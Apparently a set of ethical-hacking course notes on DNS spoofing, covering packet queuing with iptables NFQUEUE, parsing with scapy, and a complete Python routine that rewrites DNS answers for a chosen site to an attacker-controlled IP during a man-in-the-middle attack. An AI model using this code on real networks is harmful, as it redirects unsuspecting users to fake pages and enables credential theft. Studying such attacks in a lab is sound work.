


## 07 DNS Sppofing

### Intercepting Packets
What's next?
* so far, we have used `scapy` to:
1. ARP spoof - establish us as man-in-the-middle
2. ARP sniff - read data flowing between the target & a gateway
* the next step 3. is modify the data sent to target
* but `scapy` cannot modify packets
* to facilitate this, we will build a queue that schedules and modifies packets between the gateway & the target 

MITM Attack
| Steps | Diagram |
|--|--|
|1. ARP Spoof |  |
|2. ARP Sniff |  |
|3. Modify Data |  |

### IP-Tables and Queues
Queuing and Modifying Packets
* instead of letting the packets flow through the attacker machine, we need to direct the packets to a queue
* in this queue, they can be modified and release to their destination (gateway or target machine) 
* linux comes with `iptables`, which can help us to manipulate routing protocols
    ```console
    └─$ iptables -h
    iptables v1.8.8 (nf_tables)

    Usage: iptables -[ACD] chain rule-specification [options]
        iptables -I chain [rulenum] rule-specification [options]
        iptables -R chain rulenum rule-specification [options]
        iptables -D chain rulenum [options]
        iptables -[LS] [chain [rulenum]] [options]
        iptables -[FZ] [chain] [options]
        iptables -[NX] chain
        iptables -E old-chain-name new-chain-name
        iptables -P chain target [options]
        iptables -h (print this help information)
    ```
* use the following command, to store (or trap) all forwards packets inside a queue
    * forwarded means, transfered when your the man-in-the-middle
    ```
    iptables
        -I FORWARD # where incoming packets come
        -j NFQUEUE # store them a Net Filter Queue
        --queue-num 0 # the # of the Queue
    ```
    * in Python, we can run this through `subprocess`
* to restore the connection, delete the rules created by
    ```
    iptables --flush
    ```
* trapping your own packets in the queue
    * we can use this for testing this on our machine to learn ip-table queuing rules
    ```
    iptables -I INPUT -j NFQUEUE --queue-num 0
    iptables -I OUTPUT -j NFQUEUE --queue-num 0
    ```
    * these two command re-direct all incoming and outgoing packets in a netfilder queue

### Handling Packets from the Queue

Netfilter Queue
* accessing this Queue requires a third-party library called `netfilterqueue`
    ```python
    import netfilterqueue as nfq
    def manipulate_packet_queue(queue_num: int):
        queue = nfq.NetfilterQueue()  		  # create a queue object
        queue.bind(queue_num, process_packet) # bind to iptables queue
        queue.run()							  # run modifications
    ```
    * this allows us to bind to the netfilter queue from the ip-table rules
    * the packets are not in a raw format (machine-readable)

Converting NFQ Packets to Scapy Format
* to make the information human-readable, we need to convert them to scapy format
    ```python
    def process_packet(packet: Packet):
        scapy_packet = scapy.IP(packet.get_payload()) # convert to scaoy format
        print(scapy_packet.show())
        packet.accept() # continue flow
    ```

### What is DNS and DNS spoofing?
Web Servers: Machine and Service
* companies that provide online services run their software on web servers
* basically, web servers are also physical computers and connected to the internet
* websites are files that are stored on this computer and hosted by a web server program
* a well-know web server program is __apache2__
* on kali, you can start an apachi2 server by running: `service apache2 start`
* to access, these web servers, you can enter their ip-address into your browser

Domain Named System
* remembering ip-addresses instead of website names is inconvenient for users
    * the DNS is the _"phonebook of the internet"_
* domain name system (DNS) servers have a register that match website names (domain names) to ip-addresses
* when you enter a website, your machine sends a DNS request to the DNS server, which returns a DNS response with the ip-address for that domain
* record types
    * `A` : address : maps domain name to ip-address
    * `CNAME` : canonical name: forwards a domain to another domain
    * `MX` : mail exchange : maps email-addresses to a domain
    * `TXT` : text record : communicates additional info to third parties
    * `NS` : name server : a URL the internet can ping to find our ip-address 
* learn more in this a short [intro video](https://youtu.be/UVR9lhUGAyU?si=3dLkYgZ2WH7di3US)

DNS Spoofing
* this is a form of man-in-the-middle attack, where the hacker machine can redirect DNS request and responses
* this can lead the target machine to malicious websites, fake login pages, fake updates, etc.

### How to DNS Spoofing
Steps for DNS Spoofing
* we already learned how to:
    * establish a man-in-the-middle position
    * sniff and queue packets (request and response)
* next we need to of the following:
    1. setup a DNS server
    2. craft a DNS response
    3. manipulate a DNS response
* the third option is the easiest (for beginners)

Understanding DNS Responses with Scapy
* use a scapy to check if a packet as DNS response layer:
    * `scapy_packet.haslayer(scapy.DNSRR)`
* the packet has two parts interesting for us:
    1. "DNS Question Record" → request in scapy `scapy.DNSQR`
    2. "DNS Resource Record" → response in scapy `scapy.DNSRR`
    ```
    \qd        \
    |###[ DNS Question Record ]### 
    |  qname     = 'bing.com.'
    |  qtype     = A
    |  qclass    = IN
    \an        \
    |###[ DNS Resource Record ]### 
    |  rrname    = 'bing.com.'
    |  type      = A
    |  rclass    = IN
    |  ttl       = 5
    |  rdlen     = None
    |  rdata     = 13.107.21.200
    ```
    * the `rdata` field contains the IP-address of www.bing.com
    * this is the field, we want to modify for spoofing

Spoofing a DNS Reponse
* the same scapy objects can be used to spoof a DNS response
* check if a user sends DNS request for a certain website (target website)
* replace the ip-address in the DNS response
* the `scapy.DNSRR` will automatically fill most fields, we need to fill `rrname` & `rdata`
* build the modified response into the packet again
* delete the `chksum` and `len` field because they are used to verify if a packet was modified by a third-party
* scapy will automatically refill these fields so that the verifications holds 
* convert the scapy packet back to an NFQ packet and forward it to target machine
    ```python
    SPOOF_SITE = b"bing.com"
    SPOOF_IP = "192.168.238.128"

    def process_packet(packet: Packet) -> None:
        # convert NFQ packet to scapy
        scapy_packet = scapy.IP(packet.get_payload())
        # check packet for DNS response
        if scapy_packet.haslayer(scapy.DNSRR):
            # check packet for target website in DNS request
            qname = scapy_packet[scapy.DNSQR].qname
            if SPOOF_SITE in qname:
                # create modified DNS reponse
                answer = scapy.DNSRR(rrname=qname, rdata=SPOOF_IP)
                scapy_packet[scapy.DNS].an = answer
                scapy_packet[scapy.DNS].ancount = 1
                # delete verification fields
                del scapy_packet[scapy.IP].len
                del scapy_packet[scapy.IP].chksum
                del scapy_packet[scapy.UDP].len
                del scapy_packet[scapy.UDP].chksum
                # fields will be recalculated
                # print modified packet
                print(scapy_packet.show())
                # return modified scapy packet to NFQ packet
                packet.set_payload(bytes(scapy_packet))
        # NFQ send out the modified packet
        packet.accept()
    ```
* if we now go to website in our browser and enter the spoofed web-address, we will be redirected to another website even to the displayed URL remains unchanged
* this is a powerful foundation to redirect targets to web-pages designed by hackers to steal their information    